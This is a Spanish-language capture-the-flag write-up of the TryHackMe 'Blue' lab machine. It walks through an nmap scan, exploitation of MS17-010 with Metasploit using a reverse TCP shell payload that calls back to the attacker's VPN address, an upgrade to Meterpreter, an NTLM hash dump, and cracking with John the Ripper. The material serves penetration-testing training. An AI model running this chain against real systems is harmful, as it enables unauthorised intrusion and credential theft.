# Blue

## NMAP
Lo primero de todo será realizar un escaneo con NMAP a la IP de la máquina en búsqueda de puertos abiertos:

- **`-A`** -> Habilita escaneo agresivo (detección de SO, versiones, scripts y traceroute).  
- **`-T4`** -> Aumenta la velocidad del escaneo (rápido pero puede generar más detección).  



Gracias a este escaneo podemos ver los puertos abiertos, habiendo 3 por debajo de 1000.

---

Buscamos una vulnerabilidad concreta para el **puerto 445**. Este puerto es utilizado por el protocolo **SMB**.


A través de este comando se confirma que la máquina es vulnerable a **MS17-010**.

<br>

---

## Metasploit
Para la explotación de esta máquina usaremos **Metasploit**.

- **Primer paso:**
Abrimos la consola de Metasploit usando el comando:
	```
	sudo msfconsole
	```

- **Segundo paso:**
Haremos una búsqueda para tratar de encontrar un exploit para **MS17-010**:
	```bash
	search MS17-010
	```

	

- **Tercer paso:**
Encontramos un posible exploit, lo seleccionamos con el comando:
	```bash
	use 0
	```

	Miramos las opciones que vienen definidas con:
	```bash
	show options
	```
	
	

	Configuramos las IPs y mostramos las opciones de nuevo para ver que se han aplicado los cambios:
	```bash
	set rhosts IP_TryHackMe
	set lhost IP_VPN
	set payload windows/x64/shell/reverse_tcp
	show options
	```
	
	Podemos comprobar que se han realizado los cambios correctamente.

---

- **Cuarto paso:**
Ejecutamos el ataque con el comando:
	```bash
	run
	```
	

	Pulsamos Ctrl + Z para salir de la shell pero sin cerrarla.

	Con el comando:
	```bash
	sessions
	```
	Veremos la sesión iniciada:

	

	Es importante saber la sesión ya que la necesitaremos más adelante.

---

<br>

## Migración a Meterpreter
Para ello buscaremos un módulo de migración a Meterpreter con el comando:
```bash
search shell_to_meterpreter
```


Lo seleccionamos y mostramos las opciones para luego realizar su configuración:
```bash
use 0
show options
```



Hacemos la configuración:
```bash
set lhost IP_VPN
set session Nº SESIÓN ANTERIOR
```

Una vez hecha la configuración, la ejecutamos con el comando:
```bash
run
```
<br>

Miramos con el comando ```sessions ``` y encontramos la shell:


La iniciamos y con el comando `whoami` comprobamo el usuario de la shell iniciada:




## Hashes y contraseñas
Para extraer los Hashes, salimos de la shell de Windows y en meterpreter usamos el comando:
```bash
hashdump
```



Nos vamos a quedar con el hash del usuario Jon. Para ello lo copiamos y lo guardamos en un fichero llamado **hash.txt**:

Intentamos descifrar la contraseña con el comando:
```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt Escritorio/hash.txt
```



<br>

---

## FLAGS
TryHackMe nos indica que existen tres flags.

### Primera Flag:
TryHackMe nos indica que se encuentra en la raíz del sistema. Para ello volvemos a acceder a la shell de la máquina Windows.

Una vez dentro navegaremos a la raíz y encontramos la primera flag:



---

### Segunda Flag:
Para encontrar esta flag navegaremos al directorio `C:\Windows\System32\Config` donde encontraremos la segunda flag:



---

### Tercera Flag:
Esta flag la podremos encontrar en el directorio `C:\Users\Jon\Documents`:




---

### Una vez encontradas todas las Flags, podemos confirmar que la máquina ha sido comprometida con ¡ÉXITO!